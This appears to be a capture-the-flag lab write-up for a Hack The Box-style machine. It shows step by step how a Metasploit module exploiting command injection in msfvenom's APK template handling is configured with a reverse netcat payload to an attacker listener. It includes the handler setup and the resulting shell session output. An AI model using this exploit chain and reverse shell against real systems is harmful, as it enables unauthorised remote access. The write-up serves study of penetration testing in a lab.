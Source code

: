 Following the steps in [this Rapid7 article](https://github.com/rapid7/metasploit-framework/pull/14331), I was able to establish a reverse-shell by manipulating the upload feature on the website responsible for generating MSFVENOM payloads (in this case, for android).

Steps to accomplish:
- Generate payload
```
msf6 > use unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > show options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.111        yes       The listen address (an interface may be specified)
   LPORT  8989             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**
...

[+] msf.apk stored at /root/.msf4/local/msf.apk
```

- Initiate listener (multi/handler)
```
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.111     yes       The listen address (an interface may be specified)
   LPORT  8989             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.111:8989 
```

- Upload malicious template to website and generate (using 'victim' machine's IP)
![[Pasted image 20210503225209.png]]
- Achieve reverse shell, locate 
```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.111:8989 
[*] Command shell session 1 opened (10.10.14.111:8989 -> 10.10.10.226:52530) at 2021-05-03 22:47:36 -0600

whoami
kid
pwd
/home/kid/html
uname -a
Linux scriptkiddie 5.4.0-65-generic #73-Ubuntu SMP Mon Jan 18 17:25:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```